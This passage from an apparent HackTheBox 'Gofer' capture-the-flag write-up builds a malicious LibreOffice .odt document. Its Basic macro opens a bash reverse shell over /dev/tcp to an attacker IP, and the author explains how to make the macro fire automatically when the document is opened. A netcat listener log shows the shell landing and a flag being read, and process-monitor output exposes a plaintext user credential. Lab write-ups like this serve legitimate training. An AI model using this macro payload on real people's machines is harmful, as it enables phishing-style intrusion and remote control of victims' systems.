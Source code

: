Payload time!

<h2>Malicious .odt</h2>

[https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html](https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html) is a rough reference to macros within libreoffice calc but these macros can be applied to writer which would save in the **.odt** format as specified. Literally use the shell function and run any code I feel like, now I know why scammers do this stuff it's remarkably simple even with libre.

```c
REM  *****  BASIC  *****

Sub evil

    Shell("bash -c 'bash -i >& /dev/tcp/10.10.14.5/7777 0>&1'")
    
End Sub
```

The steps: Go to _**Tools>Macros>Organize Macros>Basic**_ and select the untitled document just created and press **New**. Add the code and close the macro editing window. Then reopen _**Tools>Macros>Organize Macros>Basic**_ and select the newly created module then **Assign** it to **Open Document** under the **Events** section. Save and boom you have a document *"Microsoft Tech Support"* would be proud of.

Send the payload, set up the listener, and:

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Gofer/Gopherus]
└──╼ $nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.11.225 51410
bash: cannot set terminal process group (50326): Inappropriate ioctl for device
bash: no job control in this shell
bash: /home/jhudson/.bashrc: Permission denied
jhudson@gofer:/usr/bin$ whoami
whoami
jhudson
jhudson@gofer:/usr/bin$ cd ~
cd ~
jhudson@gofer:~$ cat user.txt
cat user.txt
daeaf6da21----------------------
```

<h1>User as tbuckley</h1>

<h2>pspy64</h2>

As is standard with any foothold I run pspy64, search for SUIDs, and use Sudo -l. Here pspy64 spits out literal credentials for another user.

```
2023/09/17 23:08:01 CMD: UID=0     PID=50619  | /usr/bin/curl http://proxy.gofer.htb/?url=http://gofer.htb --user tbuckley:ooP4dietie3o_hquaeti 
```
